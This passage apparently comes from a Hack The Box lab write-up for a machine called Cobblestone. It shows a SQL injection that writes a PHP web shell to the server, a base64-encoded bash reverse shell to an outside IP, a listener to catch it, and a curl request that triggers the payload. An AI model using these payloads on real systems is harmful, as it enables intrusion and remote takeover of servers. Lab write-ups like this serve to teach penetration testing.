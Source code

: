 ```bash
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/vote/shell.php')? [Y/n] Y
[11:18:20] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:18:20] [INFO] retrieved: 34
[11:18:29] [INFO] the remote file '/var/www/vote/shell.php' is larger (34 B) than the local file 'shell.php' (30B)
[11:18:29] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 11:18:29 /2025-08-13/
```

Success upload and checking out `whoami`.

![Shell](/assets/img/cobblestone-htb-season8/cobblestone-htb-season8_shell.png)

Next up, to reverse shell, we gonna use `base64` to encode the command.

```bash
└─$ echo 'bash -i >& /dev/tcp/10.10.16.36/3333 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zNi8zMzMzIDA+JjEK
```

Use the `penelope` to catch the reverse shell.

```bash
└─$ penelope -p 3333 
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xx.xx.xx • 172.xx.xx.xx • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

Then using the `curl` to send the request.

```bash
curl "http://vote.cobblestone.htb/shell.php?cmd=echo%20'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zNi8zMzMzIDA+JjEK'%20|%20base64%20-d%20|%20bash"
```

But wait for a second and got nothing, seems like not working. <br>
Also for the upload `shell.php` part, we can manually do it via `UNION` query.

```bash
99999' UNION ALL SELECT NULL,NULL,NULL,"<?php system($_GET['cmd']) ?>",NULL INTO OUTFILE '/var/www/vote/shell.php'-- -
```

![Shell](/assets/img/cobblestone-htb-season8/cobblestone-htb-season8_shell_2.png)
